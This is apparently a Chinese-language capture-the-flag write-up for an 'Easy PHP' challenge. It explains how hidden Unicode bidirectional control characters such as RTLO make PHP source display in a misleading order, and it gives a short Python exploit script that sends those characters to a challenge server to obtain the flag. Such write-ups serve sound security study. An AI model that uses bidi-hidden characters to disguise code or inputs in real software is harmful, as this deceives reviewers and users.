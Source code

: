 #  Easy PHP

![avatar](img/easy_php_0.png)

进入网页，看到php源码。

![avatar](img/easy_php_1.png)

F12查看，似乎并不是按照表面的顺序排列的。

![avatar](img/easy_php_2.png)

扔到winhex里面看，得到真实的显示内容，其中包括了一些BIDI字符（如RTLO），会影响字符串的显示顺序。

![avatar](img/easy_php_3.png)

也就是说表单内容里面是包含这些隐藏字符的，用python发请求，带上这些字符，得到flag。

![avatar](img/easy_php_4.png)

EXP：
```python
import requests

url = 'http://124.71.176.131:10001/'

params = {
    'username': 'admin',
    chr(8238)+chr(8294)+'L3H'+chr(8297)+chr(8294)+'password': chr(8238)+chr(8294)+'CTF'+chr(8297)+chr(8294)+'l3hctf'}
print(params)
r = requests.get(url, params)
print(r.text)
```
